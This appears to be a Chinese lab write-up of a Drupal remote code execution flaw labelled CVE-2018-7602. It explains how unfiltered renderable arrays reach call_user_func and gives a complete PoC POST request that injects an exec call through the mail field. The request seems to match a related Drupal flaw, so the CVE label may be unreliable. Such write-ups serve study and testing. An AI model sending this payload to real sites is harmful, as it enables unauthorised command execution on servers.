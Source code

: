 ![image-20200908132031293](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908132031293.png)





### CVE-2018-7602 Drupal 远程代码执行漏洞

##### 漏洞简介及影响范围

该漏洞的产生的根本原因在于Drupal对表单的渲染上。

Drupal为了在表单渲染过程中能够动态修改数据，从6.x版本开始便引入了”Drupal Form API”的概念。
相关文档如下：https://api.drupal.org/api/drupal/elements/8.6.x

这些”可渲染的数组(Renderable arrays)”就是引发此次漏洞的”元凶”，它由一个key-value结构存储，Drupal在渲染这些”数组”时，将其中的数据未经安全过滤传入到`doRender`函数中。该方法取出”可渲染数组”`#lazy_builder`的值，未经过滤直接传入`call_user_func_array`函数，导致恶意代码被执行。

影响版本 6/7/8

##### 利用过程

![d47e62d2b349aca45e42305ed6714efbe5ed61d9](https://yqfile.alicdn.com/d47e62d2b349aca45e42305ed6714efbe5ed61d9.png)黑客在”可渲染数组”中插入构造恶意代码，如: `mail[#post_render][]=恶意代码`
![d47e62d2b349aca45e42305ed6714efbe5ed61d9](https://yqfile.alicdn.com/d47e62d2b349aca45e42305ed6714efbe5ed61d9.png)通过POST方法将含有恶意代码的”可渲染数组”提交到drupal系统中。
![d47e62d2b349aca45e42305ed6714efbe5ed61d9](https://yqfile.alicdn.com/d47e62d2b349aca45e42305ed6714efbe5ed61d9.png)页面渲染流程中，”可渲染数组”中携带的恶意代码依次经过`buildform`->`uploadAjaxCallback`->`renderRoot`->`doRender`方法。
![d47e62d2b349aca45e42305ed6714efbe5ed61d9](https://yqfile.alicdn.com/d47e62d2b349aca45e42305ed6714efbe5ed61d9.png)最终`doRender`方法将”可渲染数组”中的恶意代码取出，传入`call_user_func`函数，导致恶意代码被执行，成功触发漏洞，网站沦陷。

环境搭建方法同CVE-2019-6341 

发送如下poc

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

![image-20200908141227006](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908141227006.png)





